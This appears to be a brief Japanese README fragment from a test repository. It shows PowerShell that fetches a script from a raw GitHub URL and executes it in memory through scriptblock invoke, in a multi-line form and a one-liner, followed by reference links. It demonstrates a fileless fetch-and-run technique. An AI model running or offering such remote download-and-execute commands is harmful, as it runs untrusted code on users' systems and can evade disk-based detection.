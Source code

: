 ```
$c = (curl -URI https://raw.githubusercontent.com/kalaxity/memory_exec_test/main/win_calc).content
$s = [scriptblock]::create($c)
$s.invoke()
```

もしくはそれらをまとめて一行で

```
([scriptblock]::create((curl -URI https://raw.githubusercontent.com/kalaxity/memory_exec_test/main/win_calc).content)).invoke()
```

## ref.
https://qiita.com/zaki-lknr/items/8950f6acea20961a8afc

https://yomon.hatenablog.com/entry/2014/11/27/222621

codegolf-hello: https://codegolf.stackexchange.com/questions/5696/shortest-elf-for-hello-world-n
